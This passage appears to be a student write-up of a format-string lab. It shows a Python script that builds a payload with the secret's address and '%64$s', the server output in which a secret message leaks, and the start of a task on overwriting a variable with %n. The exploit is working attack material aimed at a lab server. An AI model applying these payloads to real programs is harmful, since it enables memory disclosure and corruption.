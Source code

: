 In the previous task we also discovered that the inputs go to the 64th position in the stack, so instead of adding 64 "%x", we use the line  `s = "%64$s"` to go directly there, so that the `printf()` call reads the given secret message's address.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

As seen in the output, we successfully accessed the string address and we printed its value:

```bash
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd3e0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffd308
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  |@
                  A secret message
server-10.9.0.5  | The target variable's value (after):  0x11223344
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 3.A

In this task, it is asked to change the value of the *target* variable, defined as a global variable in the program. For this purpose, we can take advantage of the `%n` format specifier, which writes to a variable from the arguments a value equal to the number of characters that have been printed by `printf()` before the occurrence of `%n`. 
